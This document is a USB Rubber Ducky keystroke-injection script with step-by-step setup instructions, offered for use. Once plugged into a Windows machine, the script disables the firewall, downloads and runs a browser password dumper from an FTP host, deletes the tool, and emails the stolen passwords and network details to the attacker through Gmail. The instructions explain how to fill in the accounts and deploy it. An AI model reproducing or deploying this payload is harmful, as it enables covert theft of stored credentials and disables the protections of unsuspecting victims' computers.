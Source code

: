 ```
DELAY 800
GUI
DELAY 800
STRING Command Prompt
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 1500
STRING mkdir C:\DuckyReport
ENTER
STRING netsh advfirewall set allprofiles state off
ENTER
STRING ipconfig > C:\DuckyReport\ipconfig.txt
ENTER
STRING cd C:\DuckyReport
ENTER
STRING ftp
ENTER
STRING open ftp.drivehq.com
ENTER
DELAY 2500
STRING YourDriveHQUsername
ENTER
DELAY 2500
STRING YourDriveHQPassword
ENTER
DELAY 2500
STRING get BPD.exe
ENTER
DELAY 8000
STRING close
ENTER
DELAY 800
STRING quit
ENTER
DELAY 800
STRING BPD.exe -f BPD.txt
ENTER
DELAY 2500
STRING del BPD.exe
ENTER
DELAY 800
STRING Exit
ENTER
DELAY 800
GUI
DELAY 1000
STRING Powershell
ENTER
DELAY 1000
STRING $emailSmtpServer = "smtp.gmail.com";$emailSmtpServerPort = "587";$emailSmtpUser = "yourgmailusername@gmail.com";$emailSmtpPass = "YourGmailPassword";$emailMessage = New-Object System.Net.Mail.MailMessage;$emailMessage.From = "DuckyScript Browser Passwords <YourEmailAddressHere@gmail.com>";$emailMessage.To.Add("EmailToSendTo@example.com");$emailMessage.Body = "See attachments";$SMTPClient = New-Object System.Net.Mail.SmtpClient( $emailSmtpServer , $emailSmtpServerPort );$SMTPClient.EnableSsl = $true;$SMTPClient.Credentials = New-Object System.Net.NetworkCredential( $emailSmtpUser , $emailSmtpPass );$attachment = "C:\DuckyReport\BPD.txt";$emailMessage.Attachments.Add($attachment);$attachment2 = "C:\DuckyReport\ipconfig.txt";$emailMessage.Attachments.Add($attachment2);$SMTPClient.Send($emailMessage);
ENTER
DELAY 5000
STRING exit
ENTER
```


## Instructions:
1. Create an free account at [https://www.drivehq.com/features/ftp.aspx](https://www.drivehq.com/features/ftp.aspx)
2. Download BPD.zip and extract it from [https://drive.google.com/file/d/0B8k1o3N-X4vZVjNwZm5ac2hZNFE/view?usp=sharing](https://drive.google.com/file/d/0B8k1o3N-X4vZVjNwZm5ac2hZNFE/view?usp=sharing)
3. Go to your account and upload BPD.exe to the root directory.
4. In the script please change the following to your information:
    On line 22 ```STRING YourDriveHQUsername``` change ___YourDriveHQUsername___ to your username for www.drivehq.com

    On line 25 ```STRING YourDriveHQPassword``` change ___YourDriveHQPassword___ to your password for www.drivehq.com

    On line 51 ```$emailSmtpUser = "yourgmailusername@gmail.com";``` This the account email used to send the email with 
        the passwords list. It is only set to use a gmail address. Change ___yourgmailusername@gmail.com___ to your email. 
        Leave the quotation marks on both sides there.

    On line 51 ```$emailSmtpPass = "YourGmailPassword";``` change ___YourGmailPassword___ to the password for your account 
        but leave the quotation marks on both sides there.

    On line 51 ```$emailMessage.From = "DuckyScript Browser Passwords <YourEmailAddressHere@gmail.com>";``` change 
        ___YourEmailAddressHere@gmail.com___ to your email address. Please leave the brackets on either side of the email 
        address.
    On line 51 ```$emailMessage.To.Add("EmailToSendTo@example.com");``` change ___EmailToSendTo@example.com___ to whatever 
        email you are sending the files to. Leave the quotation marks on both sides there.

5. Load the script on your USB RubberDucky and you are ready to do some reconnaissance.